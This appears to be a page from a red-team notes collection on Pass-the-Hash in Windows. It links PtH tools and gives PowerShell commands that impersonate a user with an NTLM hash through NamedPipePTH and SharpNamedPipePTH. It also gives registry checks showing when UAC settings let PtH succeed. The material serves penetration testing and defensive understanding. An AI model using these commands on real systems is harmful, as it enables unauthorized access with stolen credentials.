 # Pass-the-Hash

- [https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/)




## NamedPipePTH

* [https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/)
* [https://github.com/S3cur3Th1sSh1t/NamedPipePTH](https://github.com/S3cur3Th1sSh1t/NamedPipePTH)
* [https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH](https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH)

Impersonate a user with Pass-the-Hash for **local** actions (network authentication does not work with `Impersonation Token`, only with `Delegation Token`):

```
PS > Invoke-ImpersonateUser-PTH -Username snovvcrash -Hash fc525c9683e8fe067095ba2ddc971889 -Target localhost -Domain . -PipeName mypipe -Binary C:\Windows\System32\cmd.exe -Verbose
PS > Invoke-SharpNamedPipePTH -C "domain:megacorp.local username:snovvcrash hash:fc525c9683e8fe067095ba2ddc971889 binary:C:\Windows\System32\cmd.exe"
```

Can be used for authenticating in SQL Server management tools (`%PROGRAMFILES(X86)%\Microsoft SQL Server Management Studio 18\Common7\IDE\Ssms.exe`) and accessing DBs with SQL admin hash, for example.




## PtH Notes

- [https://offensivedefence.co.uk/posts/ntlm-auth-firefox/](https://offensivedefence.co.uk/posts/ntlm-auth-firefox/)



### User Account Control

* [https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)



### LocalAccountTokenFilterPolicy & FilterAdministratorToken

| Property Name                                                                                                                                              | Property Path                                                                                  |
|------------------------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------|
| [LocalAccountTokenFilterPolicy](https://docs.microsoft.com/ru-ru/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) | `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\` |
| [FilterAdministratorToken](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/7c705718-f58e-4886-8057-37c8fd9aede1)                      | `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\` |

If `LocalAccountTokenFilterPolicy` exists and is set to `1` (doesn't exist by default), remote connections from **all** local admins are not affected by UAC and PtH will succeed:

```
PS > Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\" -Name LocalAccountTokenFilterPolicy
```

If `FilterAdministratorToken` exists and is set to `1` (doesn't exist by default), builtin local admin account (RID 500) is affected by UAC and PtH will fail:

```
PS > Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ -Name FilterAdministratorToken
```
